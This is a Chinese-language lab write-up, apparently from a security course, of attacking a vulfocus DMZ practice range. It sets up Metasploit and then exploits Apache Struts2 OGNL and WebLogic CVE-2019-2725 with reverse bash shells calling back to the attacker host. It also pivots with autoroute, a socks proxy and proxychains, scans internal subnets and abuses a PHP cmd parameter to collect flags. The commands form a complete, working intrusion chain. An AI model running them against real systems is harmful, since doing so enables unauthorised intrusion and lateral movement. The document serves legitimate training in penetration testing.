










# DMZ
## DMZ复现环境搭建
1.进入目录下解压DMZ.zip，并查看用到的images和子网设置相关信息


启动vulfocus


2.需要用到的第一个原镜像不好导入，可以从老师给的地方拉取镜像并导入vulfocus，其他镜像在vulfocus的 镜像管理->镜像管理 搜索栏处搜索对应名字并下载拉取，完成后将镜像均一键导入vulfocus中。








3.在场景管理->环境编排管理中创建新的场景如下，之后点击保存并发布，启动场景。




场景启动后，访问网页发现可以访问成功（注意访问地址的前面的ip地址有bug，需要更换为自己的ip地址）同时可以用docker ps查看发现多出了许多的容器。




## DMZ入口靶标已get flag

### Metasploit 基础配置

先选取攻击者attacker主机，由于我的kali虚拟机一直在启动msfconsole时有报错，因此选择ubuntu主机作为攻击者主机进行操作。
```
#metasploit 基础配置
#更新 metasploit
sudo apt install -y metasploit-framework

#初始化 metasploit 本地工作数据库
sudo msfdb init

#启动 msfconsole
msfconsole
```


### 执行漏洞利用模块（get flag）
```
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
# 选择并使用一个名为 struts2_multi_eval_ognl 的 exploit 模块。这个模块是用于利用 Apache Struts2 的一个远程代码执行漏洞。
use exploit/multi/http/struts2_multi_eval_ognl
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

# 配置 exp 参数
# 确保所有 Required=yes 参数均正确配置

# 靶机 IP
set RHOSTS 192.168.56.216 
# 靶机目标端口
set rport  29551          
# 攻击者主机 IP
set LHOST  192.168.56.214 

# 再次检查 exp 配置参数列表
show options
```


```
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash
#执行当前的漏洞利用模块
exploit -j
# 查看打开的reverse shell
sessions -l
# 进入会话 1，无命令行交互提示信息，可以直接输入bash指令获取第一个flag
sessions -i 1
id
ls /tmp
```


将上图中显示出的flag提交，可以发现成功，进度条涨至20%。



## DMZ 内网第一层靶标已 get flag

### 建立立足点并发现靶标2-4

先将cmd shell升级至meterpreter shell


通过sessions -i 3进入meterpreter会话，通过ipconfig等指令查看内网真实地址并建立相关路由。
```
run autoroute -s 192.170.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p
#最后输入background使其挂到后台运行
```


```
# portscan through pivot
search portscan
use auxiliary/scanner/portscan/tcp
show options
# 根据子网掩码推导
set RHOSTS 192.170.84.2-254
# 根据「经验」
set rport 7001
# 根据「经验」
set threads 10
#（下图中的上述相关配置过程未截图，设置完毕后可通过show options查看确认正确性）
exploit
```



```
# 等到扫描结果 100%
# 查看主机存活情况
hosts

# 查看发现的服务列表
services
```


```
# setup socks5 proxy 
search socks_proxy
use auxiliary/server/socks_proxy
run -j
```



新打开一个命令行ssh连接攻击者主机，检查 1080 端口服务开放情况：sudo lsof -i tcp:1080 -l -n -P


安装下载proxychains4。



安装后发现配置文件缺失，不能成功启动proxychains4。使用sudo vim /etc/proxychains4.conf手动创建配置文件。输入以下内容：
```
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
# Add your proxy settings here
# Example:
# socks5 127.0.0.1 1080
```

同时确保配置文件有正确的权限，以便 proxychains4 可以读取它：`sudo chmod 644 /etc/proxychains4.conf`，随后可以正常使用。
输入`sudo vim /etc/proxychains4.conf`，更改配置文件，并执行`proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5`。


重新回到metasploit会话窗口。重新进入shell会话。

```
# 回到 metasploit 会话窗口
# 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```


出现404错误，说明网络层联通，但应用层请求了一个不存在的地址。

### 攻破靶标2-4，并获得flag

我们已知拓扑中三台主机均存在cve-2019-2725漏洞，因此选择利用它。

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP （一共需要设置三次）
set lhost 192.168.56.108
# 分别 run（一共要run三次）
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```


成功得到三个flag，提交至vulfocus搭建的环境中，进度涨至80%。


## DMZ内网第二层靶标已get flag

### 发现终点靶标

```
# 通过网卡、路由、ARP 发现新子网 192.169.85.0/24
sessions -c "ifconfig" -i 5,6,7
```


由结果可以发现新子网存在于会话7中，我们将会话7升级为meterpreter shell

```
# 将会话 7 升级为 meterpreter shell
sessions -u 7
# 新的 meterpreter shell 会话编号此处为 8
sessions -i 8
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p
#通过 background指令将其推至后台运行
```


和之前一样，依然选择使用tcp来扫描，但注意要更改相关的配置，如扫描的端口等

```
use scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
run 
#发现终点靶标 192.169.85.2.80(tcp)
```


### 拿到最终靶标上的flag

```
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```


提交至vulfocus处，成功，至此最后的靶标5也被成功攻破。


